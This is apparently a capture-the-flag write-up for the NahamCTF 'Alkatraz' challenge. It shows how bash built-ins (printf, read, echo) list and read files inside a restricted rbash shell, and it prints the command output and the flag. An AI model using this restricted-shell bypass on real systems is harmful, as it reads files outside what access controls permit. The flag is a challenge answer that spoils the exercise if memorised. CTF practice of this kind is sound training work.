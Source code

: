 ```yaml
---
title: "NahamCTF: Alkatraz"
categories:
  - NahamCTF  
tags:
  - NahamCTF  
---
```


"We are so restricted here in Alkatraz. Can you help us break out?"

For this challenge, we're given a very restricted shell when we connect the the nc listener. Most commands don't work, and we can't escape the shell by running bash, or sh. We can, however, use basic built-in bash commands to read the flag:

```
printf '%s\n' .* *; for i in $(printf '%s\n' .* *); do read var < $i && echo $var ; done

.
..
.bash_logout
.bashrc
.profile
flag.txt
/bin/rbash: line 32: read: read error: 0: Is a directory
/bin/rbash: line 32: read: read error: 0: Is a directory
# ~/.bash_logout: executed by bash(1) when login shell exits.
# ~/.bashrc: executed by bash(1) for non-login shells.
# ~/.profile: executed by the command interpreter for login shells.
flag{congrats_you_just_escaped_alkatraz}
```

**flag{congrats_you_just_escaped_alkatraz}**
